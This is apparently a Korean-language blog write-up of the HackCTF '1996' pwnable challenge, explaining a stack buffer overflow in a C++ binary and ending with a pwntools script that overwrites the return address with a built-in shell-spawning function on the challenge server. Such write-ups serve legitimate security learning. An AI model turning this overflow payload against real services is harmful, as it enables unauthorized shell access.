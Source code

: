 ```yaml
---
layout: post
title:  "HackCTF 1996 write-up"
date:   2020-01-11 19:45:55
image:  hackctf_1996.PNG
tags:   [HackCTF]
categories: [Write-up]
---
```



### 1.  문제

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%201996/Untitled.png)
  
NX 비트가 걸려있다

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%201996/Untitled%201.png)  
프로그램을 실행하면 다음과 같이 나온다. 어떠한 환경 변수를 읽고 싶은지 묻고 입력을 하면 입력한 값을 출력해주고 끝나게 된다

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%201996/Untitled%202.png)  
코드를 보면 C++ 코드로 구성된것을 알 수 있다.

코드만 보면 v3을 v4에 넣고 v7, v8 이걸 v9에 넣고,,, 복잡하다.

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%201996/Untitled%203.png)  
그리고  shell을 실행시키는 함수가 내장되어 있으므로 이를 이용해서 푸는 문제인 것 같다

<br><br>
### 2. 접근방법

복잡할 것 같지만 다 훼이크이고 std cin을 이용해 name 변수를 통한 bof로 문제를 풀면 끝날 것 같다

name 부터 ret 까지 1048 크기이니 1048+ spawn_shell 주소 이렇게 주면 된다
<br><br><br>
### 3. 풀이

최종 익스 코드는 다음과 같다  
```python
from pwn import *

p = remote("ctf.j0n9hyun.xyz",3013)

p.recvuntil("Which environment variable do you want to read?")

payload = "A"*1048
payload += p64(0x0000000000400897)

p.sendline(payload)
p.interactive()
```

<br><br>
### 4. 몰랐던 개념

쫄지말자